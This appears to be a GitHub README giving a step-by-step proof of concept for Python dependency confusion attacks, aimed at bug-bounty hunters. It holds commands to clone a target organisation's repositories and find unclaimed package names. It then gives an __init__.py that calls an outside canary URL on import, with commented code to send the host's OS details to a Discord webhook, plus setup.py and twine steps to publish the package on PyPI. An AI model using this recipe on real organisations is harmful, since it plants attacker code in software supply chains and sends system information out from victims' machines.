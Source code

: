 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>


## How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

#### Download all target github repository
- Crate personal access tokens (classic):- https://github.com/settings/tokens
- Install ghorg - https://github.com/gabrie30/ghorg#installation
```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone google -t 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`
    
    
- After Download all repository finds vulnerable python package

```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} | cut -d ">" -f 1 | cut -d " " -f 1 |  sort -u | cut -d "=" -f1 | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- So now Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


import request
#from discord import SyncWebhook
#import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target system info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```
- [+]note: The version of package and the version of the vulnerable package must be same
    
```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code execution (RCE)'

# Setting up
setup(
    name="<package-name>",
    version=VERSION,
    author="<techghoshal>",
    author_email="<techghoshal@gmail.com>",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Next build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly (https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
    
Upload IS DONE 😎 
<br>
🎉 Now Bounty Time 💰💰
    
## Connect me
If you have any queries, you can always contact me on <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>


